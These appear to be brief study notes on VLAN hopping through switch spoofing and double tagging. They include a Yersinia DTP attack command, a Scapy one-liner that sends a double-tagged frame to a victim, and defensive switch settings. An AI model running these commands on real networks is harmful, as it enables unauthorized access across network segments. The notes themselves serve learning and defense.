

**Switch Spoofing**
- Requires Dynamic Trunking Protocol (DTP) to be enabled on the switch.
- Attackers device can pretend to be a switch then send trunk negotiation.
- Therefore - send and receive from any configured VLAN.
**Double Tagging**
- Requires "native" VLAN configuration
- Craft a packet that includes two VLAN tags
- Cons: There is no way to receive a response back from the victim.



**Tools**

```bash
# Switch spoofing: force a trunk by speaking DTP (Yersinia)
yersinia dtp -attack 1 -interface eth0

# Double tagging: craft a frame with two stacked 802.1Q tags (Scapy)
sendp(Ether()/Dot1Q(vlan=10)/Dot1Q(vlan=20)/IP(dst="<victim>")/ICMP(), iface="eth0")
```

**Defense:** disable DTP (`switchport nonegotiate`), pin access ports, and never reuse the native VLAN for a live access VLAN.